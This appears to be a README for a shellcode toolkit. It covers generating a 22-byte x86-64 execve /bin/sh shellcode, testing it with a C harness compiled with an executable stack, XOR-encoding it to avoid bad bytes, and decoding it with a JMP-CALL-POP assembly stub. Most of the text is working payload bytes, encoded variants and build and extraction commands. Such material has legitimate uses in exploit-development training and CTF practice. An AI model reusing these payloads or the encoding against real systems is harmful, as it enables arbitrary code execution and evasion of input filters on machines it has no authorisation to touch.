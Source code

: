 # Usage

## The shellcode python generator

It uses the simplest "execve /bin/sh" shellcode by default

```bash
python3 generate_shellcode.py

Shellcode: b'1\xf6VH\xbb/bin//shST_\xf7\xee\xb0;\x0f\x05'
Shellcode HEX: 31f65648bb2f62696e2f2f736853545ff7eeb03b0f05
Raw Shellcode: \x31\xf6\x56\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xf7\xee\xb0\x3b\x0f\x05
Shellcode Length: 22 bytes
```

## The C payload tester

### Compile
`gcc -o test_payload test_payload.c -z execstack`

### Test
```bash
./test_payload               

$ id
uid=1000(xtk)...
```

## The XOR key finder

This script helps to avoid specified badbytes by static XOR key encoding. 
It looks for appropriate XOR key to fit specified badbytes

### Usage

```bash
$ python3 xor_key_finder.py

Found valid XOR key: 0x0d
Encoded shellcode:
\x3c\xfb\x5b\x45\xb6\x22\x6f\x64\x63\x22\x22\x7e\x65\x5e\x59\x52\xfa\xe3\xbd\x36\x02\x08
0x3c,0xfb,0x5b,0x45,0xb6,0x22,0x6f,0x64,0x63,0x22,0x22,0x7e,0x65,0x5e,0x59,0x52,0xfa,0xe3,0xbd,0x36,0x02,0x08
3cfb5b45b6226f646322227e655e5952fae3bd360208
...
Found valid XOR key: 0xaa
Encoded shellcode:
\x9b\x5c\xfc\xe2\x11\x85\xc8\xc3\xc4\x85\x85\xd9\xc2\xf9\xfe\xf5\x5d\x44\x1a\x91\xa5\xaf
0x9b,0x5c,0xfc,0xe2,0x11,0x85,0xc8,0xc3,0xc4,0x85,0x85,0xd9,0xc2,0xf9,0xfe,0xf5,0x5d,0x44,0x1a,0x91,0xa5,0xaf
9b5cfce21185c8c3c48585d9c2f9fef55d441a91a5af
...
```

### ASM XOR payload decoder

This assembly decodes XOR endcoded shellcode and uses JMP-CALL-POP technique to dynamically find the address of the payload in a position-independent manner, ensuring the decoder works regardless of where the code is loaded in memory.

### Usage

```bash
nasm -f elf64 -o shellcode.o XOR_decoder.nasm
ld -o shellcode shellcode.o
```

Let's get the RAW payload using:
```bash
objdump -d shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

